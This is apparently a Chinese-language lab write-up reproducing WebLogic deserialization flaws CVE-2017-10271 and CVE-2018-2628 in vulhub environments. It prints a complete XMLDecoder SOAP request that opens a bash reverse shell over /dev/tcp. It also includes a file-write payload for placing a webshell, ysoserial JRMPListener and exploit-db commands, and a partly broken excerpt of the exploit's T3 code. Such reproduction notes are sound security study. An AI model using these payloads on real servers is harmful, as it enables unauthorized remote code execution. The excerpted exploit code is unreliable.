 ## CVE-2017-10271 Weblogic < 10.3.6 'wls-wsat' XMLDecoder 反序列化漏洞

### 漏洞简介

Weblogic的WLS Security组件对外提供webservice服务，其中使用了XMLDecoder来解析用户传入的XML数据，在解析的过程中出现反序列化漏洞，导致可执行任意命令。攻击者发送精心构造的xml数据甚至能通过反弹shell拿到权限。

OracleWebLogic Server10.3.6.0.0
OracleWebLogic Server12.1.3.0.0
OracleWebLogic Server12.2.1.1.0
OracleWebLogic Server12.2.1.2.0

### 漏洞原理

CVE-2017-10271漏洞主要是由WebLogic Server WLS组件远程命令执行漏洞，主要由wls-wsat.war触发该漏洞，触发漏洞url如下： [http://101.32.30.69:7001/wls-wsat/CoordinatorPortType](https://links.jianshu.com/go?to=http%3A%2F%2F192.168.xx.xx%3A7001%2Fwls-wsat%2FCoordinatorPortType) post数据包，通过构造构造SOAP（XML）格式的请求，在解析的过程中导致XMLDecoder反序列化漏洞。

### 漏洞复现

使用 /vulhub/weblogic/CVE-2017-10271 环境

访问http://101.43.138.109:8080/wls-wsat/CoordinatorPortType，存在以下页面能存在漏洞

![image-20220224100230691](TyporaPicture/image-20220224100230691.png)

poc如下，反弹shell

~~~
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: 101.43.138.109:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: text/xml
Content-Length: 643

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Header>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java version="1.4.0" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>bash -i &gt;&amp; /dev/tcp/101.43.138.109/1770 0&gt;&amp;1</string>
</void>
</array>
<void method="start"/></void>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>
~~~

![image-20220224100933366](TyporaPicture/image-20220224100933366.png)

写入webshell，需要构造路径，上传的文件在http://101.43.138.109:8080/wls-wsat/ 路径下

~~~
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
      <soapenv:Header>
        <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
         <java version="1.6.0" class="java.beans.XMLDecoder">
                    <object class="java.io.PrintWriter"> 
                        <string>servers/AdminServer/tmp/_WL_internal/wls-wsat/54p17w/war/test.txt</string><void method="println">
                        <string>xmldecoder_vul_test</string></void><void method="close"/>
                    </object>
            </java>
        </work:WorkContext>
      </soapenv:Header>
      <soapenv:Body/>
</soapenv:Envelope>
~~~



## CVE-2018-2628 Weblogic WLS Core Components 反序列化命令执行漏洞

### 漏洞原理

远程攻击者可利用该漏洞在未授权的情况下发送攻击数据，通过T3协议（EJB支持远程访问，且支持多种协议。这是Web Container和EJB Container的主要区别）在Weblogic Server中执行反序列化操作，利用RMI（远程方法调用） 机制的缺陷，通过 JRMP 协议（Java Remote Messaging Protocol：java远程消息交换协议）达到执行任意反序列化 payload 的目的。 

### 漏洞复现

使用/vulhub/weblogic/CVE-2018-2628 环境

地址 http://101.43.138.109:8080/

在本地启动一个JRMP server

~~~
java -cp ysoserial-master-SNAPSHOT.jar ysoserial.exploit.JRMPListener 2333 CommonsCollections1 'touch /tmp/evil'
~~~

exp地址 https://www.exploit-db.com/exploits/44553

~~~
python exp.py 101.43.138.109 7001 ysoserial-master-SNAPSHOT.jar 101.43.138.109 2333 JRMPClient
~~~

使用此exp进行攻击时遇到一个问题，第一次我将docker的7001端口映射到8080上，exp运行卡在了build_t3_request_object函数，使用https://github.com/rabbitmask/WeblogicScan工具进行扫描，竟然没有扫描出CVE-2018-2628

![image-20220224132602194](TyporaPicture/image-20220224132602194.png)

后来把docker的7001端口映射到7001端口，WeblogicScan扫描出了漏洞，exp利用也成功了，后续分析发现WeblogicScan用的[poc](https://github.com/rabbitmask/WeblogicScan/blob/05cee3a69cf403e4db5f057c569a923c107cb97b/poc/CVE_2018_2628.py#L1)同样是https://www.exploit-db.com/exploits/44553的代码，所以问题的根源就在exp的代码里面。

![image-20220224133043397](TyporaPicture/image-20220224133043397.png)

![image-20220224134027161](TyporaPicture/image-20220224134027161.png)

~~~python
def build_t3_request_object(sock, port):
    data1 = '000005c7765626c6f6769632e726a766d2e436c371'
    data2 = '00087077200114dc42bd07'.format('{:04x}'.format(dport))
    data3 = '1a7727000d3234322e323134'
    data4 = '2e312e32353461863d1d0000000078'
    for d in [data1,data2,data3,data4]:
        sock.send(d.decode('hex'))
    time.sleep(2)
    print('send request payload successful,recv length:%d'%(len(sock.recv(2048))))
~~~

感谢实验室大佬的解答，让我找到了出现这个问题的原因。“当负载均衡或代理端口与后端weblogic监听端口不一致时后端的weblogic就会拒绝t3协议的连接并抛出端口不一致错误。”docker的端口映射就好比一个反向代理，把内部7001端口的流量转发到外部8080端口。详细信息：https://www.secpulse.com/archives/163761.html

然而文中的解决方式是用java重写一个JVMID完成地址转换，也没有给出完整代码，对于我这个java小白来说根本不知道如何操作。这个问题暂时搁置。







